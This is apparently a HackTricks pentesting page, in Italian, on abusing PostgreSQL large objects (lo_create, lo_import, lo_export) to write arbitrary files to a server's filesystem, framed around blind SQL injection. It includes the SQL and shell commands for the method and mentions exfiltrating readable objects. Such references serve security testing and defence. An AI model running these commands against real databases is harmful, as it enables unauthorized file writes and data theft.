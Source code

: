 {{#include ../../../banners/hacktricks-training.md}}

### Oggetti di grandi dimensioni PostgreSQL

PostgreSQL offre una struttura nota come **oggetti di grandi dimensioni**, accessibile tramite la tabella `pg_largeobject`, progettata per memorizzare grandi tipi di dati, come immagini o documenti PDF. Questo approccio è vantaggioso rispetto alla funzione `COPY TO` in quanto consente l'**esportazione dei dati nel file system**, garantendo che venga mantenuta una replica esatta del file originale.

Per **memorizzare un file completo** all'interno di questa tabella, deve essere creato un oggetto nella tabella `pg_largeobject` (identificato da un LOID), seguito dall'inserimento di chunk di dati, ciascuno di 2KB, in questo oggetto. È fondamentale che questi chunk siano esattamente di 2KB (con la possibile eccezione dell'ultimo chunk) per garantire che la funzione di esportazione funzioni correttamente.

Per **dividere i tuoi dati binari** in chunk di 2KB, possono essere eseguiti i seguenti comandi:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Per codificare ogni file in Base64 o Hex, possono essere utilizzati i seguenti comandi:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Importante**: Quando si automatizza questo processo, assicurati di inviare blocchi di 2KB di byte in chiaro. I file codificati in esadecimale richiederanno 4KB di dati per blocco a causa del raddoppio delle dimensioni, mentre i file codificati in Base64 seguono la formula `ceil(n / 3) * 4`.

Il contenuto degli oggetti di grandi dimensioni può essere visualizzato per scopi di debug utilizzando:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Utilizzando `lo_creat` e Base64

Per memorizzare dati binari, viene prima creato un LOID:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
In situazioni che richiedono un controllo preciso, come nello sfruttamento di una Blind SQL Injection, `lo_create` è preferito per specificare un LOID fisso.

I chunk di dati possono quindi essere inseriti come segue:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Per esportare e potenzialmente eliminare il grande oggetto dopo l'uso:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Utilizzando `lo_import` e Hex

La funzione `lo_import` può essere utilizzata per creare e specificare un LOID per un oggetto di grandi dimensioni:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Dopo la creazione dell'oggetto, i dati vengono inseriti per pagina, assicurando che ogni blocco non superi i 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Per completare il processo, i dati vengono esportati e l'oggetto di grandi dimensioni viene eliminato:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitazioni

Si nota che **i grandi oggetti possono avere ACL** (Liste di Controllo degli Accessi), potenzialmente limitando l'accesso anche agli oggetti creati dal tuo utente. Tuttavia, oggetti più vecchi con ACL permissive potrebbero essere ancora accessibili per l'exfiltrazione dei contenuti.

{{#include ../../../banners/hacktricks-training.md}}
